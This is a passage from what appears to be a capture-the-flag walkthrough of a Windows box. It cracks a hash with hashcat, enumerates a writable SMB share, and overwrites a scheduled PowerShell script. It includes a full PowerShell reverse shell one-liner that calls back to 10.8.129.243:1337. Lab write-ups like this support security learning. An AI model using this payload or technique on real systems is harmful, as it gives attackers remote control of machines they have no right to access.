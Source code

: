Copy and crack the hash with hashcat. The mode is 5600

![[attachments/Pasted image 20240527120523.png]]

![[attachments/Pasted image 20240527120643.png]]

Now we have the password for the user `enterprise-security`

Trying the creds with psexec and evil-winrm doesn't work so we still have work to do

![[attachments/Pasted image 20240527121843.png]]

![[attachments/Pasted image 20240527121908.png]]
# SMB Enumeration (again)

Since we can't login yet, we have to perform more enumeration.
Listing shares with smbmap using the credentials

![[attachments/Pasted image 20240527122018.png]]

This shows we have read and write access to the share `Enterprise-Share`

![[attachments/Pasted image 20240527122427.png]]

We can see there is a powershell script here. Let's download and check the contents

![[attachments/Pasted image 20240527122716.png]]

The script is used for removing all contents of Public user's Documents directory 

![[attachments/Pasted image 20240527123014.png]]

From the nature of the script, it seems like something that runs at scheduled intervals. If that is the case and we have write permissions to this share then we can create a powershell script that has the same name but it'll contain a powershell reverse shell payload. Then we overwrite the original script, setup a netcat listener and wait for our shell hopefully.

The payload i will be using:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.8.129.243',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Put it in a file.
Overwrite the script 

![[attachments/Pasted image 20240527124649.png]]
